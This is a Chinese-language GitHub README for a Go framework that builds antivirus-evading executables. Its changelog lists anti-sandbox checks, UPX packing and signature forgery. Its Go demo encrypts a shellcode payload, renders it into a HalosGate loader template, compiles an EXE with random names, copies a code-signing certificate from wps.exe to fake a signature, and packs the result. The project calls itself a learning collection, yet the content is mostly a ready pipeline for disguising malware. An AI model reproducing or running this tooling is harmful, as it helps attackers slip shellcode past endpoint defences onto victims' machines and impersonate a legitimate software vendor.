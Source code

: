 # variant

Go Anti-Virus Framework

## Description

本项目会不断添加各种免杀的技术，但是**不适合直接不做任何修改的编译和使用**，即使是有随机特征的编译

### 特别说明

1. 本项目不会有 `GUI` 版本
2. 学习Go免杀的代码集合，顺手做了模块化处理，**实际开发未结束，还在持续更新**；
3. 想要实现最好的免杀效果还需要自行修改渲染编译模板，代码提供了三种加载方式的渲染模板。

### 更新日志

### 2024.1.29

1. 新增渲染判断，模板可根据结构体来渲染
2. 更改为验证为沙箱之后程序正常退出
3. 新增代码检查：检查通过再编译；初始化：`go install golang.org/x/tools/cmd/goimports@latest`
4. 细化结构体：根据功能区分
5. 新增压缩算法：`lzw`, `zstd`；熵值模块
6. 新增动态方法：`GetSelfSHA256Nth`
7. 优化代码逻辑

### 2024.1.27

1. 模块化配置
2. 模板渲染
3. 编译控制
4. UPX压缩：需要检查`upx.exe`是否正确放置在`build`文件夹，才能正确初始化
5. 签名伪造
6. 添加图标文件信息：初始化：`go install github.com/tc-hib/go-winres@latest`
7. 模板更新
8. 反沙箱模块

### TODO

1. 动态`key` 
2. 熵控制
3. 隐藏导入表

## Demo

```go
package main

import (
	"fmt"
	"strings"
	"variant/build"
	"variant/crypto"
	"variant/enc"
	"variant/log"
	"variant/rand"
	"variant/render"
)

func main() {
	// 定义模板渲染数据
	data := render.Data{
		KeyName:    rand.RStrings(),
		KeyValue:   rand.LStrings(16),
		IvName:     rand.RStrings(),
		IvValue:    rand.LStrings(16),
		CipherText: rand.RStrings(),
		PlainText:  rand.RStrings(),
		Decrypt:    "XorSm4HexBase85Decrypt",
		Loader:     "HalosGate",
	}

	// 设置加密参数
	params := enc.Payload{
		PlainText: "render/templates/payload.bin",
		Key:       []byte(data.KeyValue),
		IV:        []byte(data.IvValue),
	}
	// 加密之后的 shellcode
	tmp, err := params.SignSetKeyIV(crypto.XorSm4HexBase85Encrypt) // 传入加密方法，根据加密方法的签名渲染模板
	if err != nil {
		log.Fatal(err)
	}
	data.Payload = tmp

	// 设置模板的渲染参数
	tOpts := render.TmplOpts{
		TmplFile:     "render/templates/base.tmpl",
		OutputDir:    "output",
		OutputGoName: fmt.Sprintf("%s.go", rand.RStrings()),
		Data:         data,
	}
	// 生成模板
	err = render.TmplRender(tOpts)
	if err != nil {
		log.Fatal(err)
	}

	// 编译参数
	cOpts := build.CompileOpts{
		GoFileName:  tOpts.OutputGoName,
		ExeFileName: fmt.Sprintf("%s.exe", strings.TrimSuffix(tOpts.OutputGoName, ".go")),
		HideConsole: false,
		CompilePath: "output",
	}
	// 编译
	if err = cOpts.Compile(); err != nil {
		log.Fatal(err)
	}

	// 添加图标和文件信息
	err = cOpts.Winres()
	if err != nil {
		log.Fatal(err)
	}

	// 伪造证书配置
	sOpts := build.SignOpts{
		SignPath: "output",
		UnSign:   cOpts.ExeFileName,
		Signed:   "signed_" + cOpts.ExeFileName,
		Cert:     "wps.der",
		Thief:    "wps.exe",
		DstCert:  "wps.der",
	}

	// 保存证书
	err = sOpts.SaveCert()
	if err != nil {
		log.Fatal(err)
	}

	// 利用EXE进行签名伪造
	err = sOpts.ExeThief()
	if err != nil {
		log.Fatal(err)
	}

	// 利用证书进行签名伪造
	err = sOpts.CertThief()
	if err != nil {
		log.Fatal(err)
	}

	// 压缩参数
	upx := build.UpxOpts{
		Level:   "-9",
		Keep:    true,
		Force:   true,
		SrcExe:  cOpts.ExeFileName,
		UpxPath: "output",
	}

	// 压缩
	err = upx.UpxPacker()
	if err != nil {
		log.Warn(err)
	}

}
```

### Thanks

https://github.com/Ne0nd0g/go-shellcode

https://github.com/safe6Sec/GolangBypassAV

https://github.com/afwu/GoBypass

https://github.com/piiperxyz/AniYa

https://github.com/wumansgy/goEncrypt

https://github.com/TideSec/GoBypassAV

https://github.com/Pizz33/GobypassAV-shellcode

https://github.com/timwhitez/Doge-Gabh
